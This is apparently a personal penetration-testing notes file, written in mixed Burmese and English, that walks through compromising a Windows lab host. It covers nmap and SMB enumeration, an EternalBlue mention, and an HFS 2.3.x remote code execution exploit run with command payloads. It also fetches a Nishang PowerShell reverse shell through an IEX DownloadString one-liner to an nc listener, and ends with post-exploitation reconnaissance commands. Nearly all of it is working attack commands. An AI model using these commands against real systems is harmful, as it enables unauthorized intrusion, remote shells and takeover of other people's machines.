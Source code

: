 
nmap 10.0.0.1 -sV -sC -oN result.txt

crackmapexec smb 10.0.0.1  -> smb enum cuzz i found smb ports was running 

crackmapexec smb 10.0.0.1 --shares   -> for file shares

crackmapexec smb 10.0.0.1 --users   -> for users

enum4linux  10.0.0.1    -> enum with every possible ways

nmap -p 445 --script=smb-vuln-ms17-010 -sV 10.0.0.1

nmap -p 445 --script=smb-vuln* -sV 10.0.0.1    -> all version ko search dar

metaspolit mar eternalblue net ya dal   => anti system user net ya twar dal

----

port 80 mar httpfiletransfer run nay dal (HFS  or Httpfileserver)

so we search with searchsploit -> we found vlun -> we copy it

searchsploit -m 49125   => copy like dar

python 49125.py 10.0.0.1 80 "whoami"     => script ko run lite dar  => but this command is'nt work

python 49125.py 10.0.0.1 80 "cmd.exe /c ping 10.0.0.17"    => ping server from our local machine  => with full path  

tcpdump -i eth0 icmp    => eth0 ka network card  -> ping request ko phan dar



python 49125.py 10.0.0.1 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe ping 10.0.1.1"    => ping again with powershell



https://raw.githubusercontent.com/thawkhant/nishang_powershell/master/Shells/Invoke-PowerShellTcp.ps1  => power shell reverse shell 

 Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444  -> i have to change this  => i replace this one at the end of this script

d file ko ho phint server ko pot mal 

pyton3 -m httpserver  => server htong

nc -lvp 444  -> reverse shell chake phot port ko pyaw dar

pee yin script ko run lite daw

python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.0.0.1:8000/shell.ps1');"

Dmmm!! man i got shell access.

------

net user   => system mar user bal na yout shi lal kyi dar

net user thawkhant  -> administrator lr user lr check dar

net localgroup 'administrator'    -> administrator group mar bal thu dwe par lal paw

whoami /priv     => privilages escellation loke phot kyi dar

cd C:\   => c out ko twar dar

cd Users   => user htal go twar dal

systeminfo      -> system ko check dar

netstat -ano    => bal port twe open nay lal kyi dar


